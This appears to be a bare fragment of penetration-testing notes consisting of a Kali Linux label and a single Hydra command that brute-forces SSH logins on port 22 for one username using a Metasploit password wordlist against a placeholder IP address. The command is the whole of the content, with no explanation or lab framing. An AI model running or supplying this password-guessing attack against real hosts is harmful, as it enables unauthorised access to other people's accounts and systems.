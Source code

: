 ```Kali Linux```


````
hydra -l frjb -P /usr/share/wordlists/metasploit/unix_passwords.txt -u -s 22 IP_ADDRESS_TO_SCAN
````

